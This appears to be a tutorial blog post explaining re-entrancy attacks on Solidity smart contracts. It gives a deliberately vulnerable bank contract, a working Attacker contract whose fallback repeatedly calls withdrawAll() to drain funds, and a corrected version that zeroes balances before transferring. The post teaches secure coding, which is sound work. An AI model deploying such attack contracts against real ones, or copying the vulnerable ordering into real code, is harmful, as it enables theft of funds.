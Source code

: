 ```yaml
---
layout: post
title: Re-entrancy attacks in Smart Contracts
categories: [smart contracts]
---
```


I've been playing around with smart contracts recently. In this post I explain a re-entrancy attacks, a common security flaw in many smart contracts Re-entrancy attacks occur when a smart contract function temporarily abandons the transaction's control flow by making an external call to a contract written by unknown or hostile actors. This allows the latter contract to make a recursive call to the primary smart contract function to drain its funds.

The steps in this attack are as follows:

1. The attacker requests the vulnerable Contract **X** to transfer funds to the malicious Contract **Y**.
2. Contract **X** determines if the attacker has the required funds, and then transfers the funds to Contract **Y**.
3. The attacker then executes a callback function. Once Contract **Y** receives the funds, it executes a callback function that calls Contract **X** back before updating the account balance.
4. This recursive process continues until all funds are used up and transferred.

Re-entrancy attacks are best illustrated by an example. Consider this simple Bank contract called **EOABank**:

```solidity
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.9;

contract EOABank {

    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawAll() public {
        (bool success, ) = msg.sender.call{ value: balances[msg.sender] }("");
        require(success, "Transaction failed!");
        balances[msg.sender] = 0;
    }
}
```

What this contract does is simple. It accepts payments through the `deposit()` function and allows withdrawal of all funds with the `withdrawAll()` function.

## How can this EOABank contract be attacked?

Consider this **Attacker** contract:

```solidity
contract Attacker {

    EOABank public exploitBank;

    constructor(address _thebankAddress) {
        exploitBank = EOABank(_thebankAddress);
    }

    // fallback
    receive() external payable {
        if (address(exploitBank).balance >= 1 ether) {
            exploitBank.withdrawAll();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        // send 1 Ether
        exploitBank.deposit{value: 1 ether}();
        // immediately withdraw
        exploitBank.withdrawAll();
    }

}
```

This contract expects the address of the **EOABank** contract at deployment. It also overwrites the `receive()` function (usually a fallback function in every smart contract) with its own functionality. The `attack()` function is where **EOABank** is attacked.

Let's go through the steps of this attack in more detail:
![](/images/reentrancy.png)

1. The Attacker contract deposits 1 Ether at **EOABank**.
2. The funds are immediately withdrawn.
3. The withdrawal triggers the `receive()` function. This happens before `balances` is set to 0.
4. The `receive()` function allows execution of arbitrary code. The Attacker uses this to call `withdrawAll()` again.
5. Here the loop starts between `receive()` and `withdrawAll()` until all funds are drained.
6. The loop.
7. Only after all funds are drained, `balances` is set to 0.

## What would a safe implementation of EOABank look like?

```solidity
contract EOABank {

    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawAll() public {
        // save balances in new variable
        uint256 bal = balances[msg.sender];
        // reset balances
        balances[msg.sender] = 0;
        // transfer
        (bool success, ) = msg.sender.call{ value: bal }("");
        require(success, "Transaction failed!");
    }
}
```

Notice the difference. First, the `balances` value is saved in a new variable `bal`. Second, the `balances` are set to 0 before transferring the value. In this way, **EOABank** is safe from Re-entrancy attacks.
